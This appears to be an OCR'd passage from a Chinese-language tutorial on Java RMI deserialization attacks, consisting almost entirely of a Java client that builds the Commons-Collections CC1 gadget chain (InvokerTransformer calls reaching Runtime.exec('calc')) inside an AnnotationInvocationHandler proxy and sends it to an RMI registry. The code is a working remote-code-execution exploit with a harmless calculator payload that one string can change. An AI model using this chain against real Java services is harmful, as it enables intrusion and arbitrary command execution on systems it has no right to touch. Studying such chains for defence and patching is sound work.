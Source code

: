 ```java
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(Exploit());
        ref.invoke(var2);
    }
 
    //恶意对象CC1
    public static Object Exploit() throws Exception{
 
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
 
        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
 
 
        HashMap<Object,Object> map=new HashMap<>();
        map.put("value","value");
        Map<Object,Object> transformedMap= TransformedMap.decorate(map,null,chainedTransformer);
//        for (Map.Entry entry: transformedMap.entrySet()){
//            entry.setValue(Runtime.getRuntime());
//        }
 
 
        Class c=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor AnnotationInvocationHandlerConstructor=c.getDeclaredConstructor(Class.class,Map.class);
        AnnotationInvocationHandlerConstructor.setAccessible(true);
        InvocationHandler o=(InvocationHandler)AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);
        Remote r = Remote.class.cast(Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, o));
        return r;
    }
 
    public static void main(String[] args) throws Exception{
        new RMIClient2().lookup();
    }
 
}
```

### 攻击Client
